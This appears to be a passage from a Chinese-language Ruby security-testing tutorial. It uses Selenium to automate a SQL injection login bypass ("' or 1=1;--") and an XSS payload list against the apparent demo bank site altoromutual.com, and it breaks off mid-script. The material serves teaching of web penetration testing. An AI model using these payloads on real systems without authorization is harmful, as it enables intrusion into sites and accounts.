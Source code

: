 > 请注意，发送的实际键取决于您的操作系统，例如，Mac 使用`COMMAND + t`，而不是`CONTROL + t`。

### POST 请求

```
#!/usr/bin/env ruby
# KING SABRI | @KINGSABRI
#
require 'selenium-webdriver'

browser = Selenium::WebDriver.for :firefox
browser.get "http://www.altoromutual.com/bank/login.aspx"

wait = Selenium::WebDriver::Wait.new(:timeout => 15)        # Set waiting timeout
# Find the input elements to interact with later.
input = wait.until {
  element_user = browser.find_element(:name, "uid")
  element_pass = browser.find_element(:name, "passw")
  # Retrun array of elements when get displayed
  [element_user, element_pass] if element_user.displayed? and element_pass.displayed?
}

input[0].send_keys("' or 1=1;--")   # Send key for the 1st element
input[1].send_keys("password")      # Send key fro the next element
sleep 1

# Click/submit the button based the form it is in (you can also call 'btnSubmit' method)
submit = browser.find_element(:name, "btnSubmit").click #.submit

# browser.quit 
```

让我们测试页面是否存在 XSS 漏洞。首先，我将列出我们需要浏览器执行的操作。

1.  打开一个浏览器窗口（Firefox）

1.  导航到一个 URL（altoromutual.com）

1.  执行一些操作（发送 XSS 负载）

1.  检查有效负载是否起作用（弹出）或者是误报

1.  在终端上打印成功的有效负载

**selenium-xss.rb**

```
#!/usr/bin/env ruby
# KING SABRI | @KINGSABRI
#
require 'selenium-webdriver'

payloads =
  [
    "<video src=x onerror=alert(1);>",
    "<img src=x onerror='alert(2)'>",
    "<script>alert(3)</script>",
    "<svg/OnlOad=prompt(4)>",
    "javascript:alert(5)",
    "alert(/6/.source)"
  ]

browser = Selenium::WebDriver.for :firefox                  # You can use :ff too
browser.manage.window.resize_to(500, 400)                   # Set browser size
browser.get "http://www.altoromutual.com/search.aspx?"

wait = Selenium::WebDriver::Wait.new(:timeout => 10)        # Timeout to wait

```